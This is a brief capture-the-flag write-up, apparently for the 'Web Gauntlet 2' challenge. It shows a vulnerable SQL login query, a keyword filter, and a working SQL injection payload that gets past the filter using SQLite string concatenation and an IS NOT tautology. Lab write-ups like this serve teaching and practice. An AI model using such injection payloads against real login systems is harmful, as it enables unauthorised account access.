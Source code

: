 # Web Gauntlet 2

Query executed:

```sql
SELECT username, password FROM users WHERE username='<Username>' AND password='<Password>'
```

Filter: `or` `and` `true` `false` `union` `like` `=` `<` `>` `--` `union` `admin`

[SQLite Operators](https://www.sqlite.org/lang_expr.html)

Username: `admi'||'n` \
Password: `a' IS NOT 'q`
